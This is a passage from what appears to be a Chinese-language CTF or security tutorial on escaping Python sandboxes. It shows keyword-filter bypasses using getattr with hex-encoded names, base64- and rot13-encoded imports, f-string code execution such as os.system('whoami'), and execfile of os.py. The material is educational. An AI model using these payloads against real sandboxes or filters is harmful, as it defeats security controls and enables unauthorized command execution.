 如果是关键字被过滤了，可以使用 getattr。getattr 接收两个参数，第一个是模块或对象，第二个是一个字符串。它会在模块或对象中搜索指定的函数或属性：
```py
import os

print getattr(os,'676574637764'.decode('hex'))()
```

也可以使用 `# coding:<encoding>` 编码整个文件.

---

## import 花式处理

import 关键字用来导入包，沙箱中对一些包或是函数进行了屏蔽，从 import 的不同方法到 import 的本质有多种不同的绕过方法。

### 使用其他的方式来导入其他包名
```py
__import__('pwn').__dict__["elf"]

__import__('Y29tbWFuZHM='.decode('base64')).getoutput('pwd')

import importlib

x = importlib.import_module('pbzznaqf'.decode('rot_13'))
print x.getoutput('pwd')
```

---

## f修饰符

在PEP 498(python > 3.6.0)中引入了新的字符串类型修饰符:f或F,用f修饰的字符串将可以执行代码.可以理解为字符串外层套了一个exec().
```py
f'{print("test")}'

f'{__import__("os").system("whoami")}'
```

---

## 模块路径

Python 中的所有包都是以 .py 文件的形式存在的，说明所有 import 进来的包一开始都预先在某个位置了。一般和系统相关的信息都在 sys 下，使用 sys.path 查看各个包的路径：
```py
import sys

print sys.path

# sys 下还有一个 modules，返回一个字典，其中可以查看各个模块对应的系统路径。如果修改这个字典中的内容，前面使用的方法就都失效了
print sys.modules['os']
```

如果把 sys、os、reload 等一系列模块都过滤掉了，使用什么方法来绕过呢？导入模块的过程其实就是把对应模块的代码执行一遍的过程，在知道模块对应路径的情况下，就可以相应地执行它：
```py
execfile('/usr/lib/python2.7/os.py')
system('pwd')
```
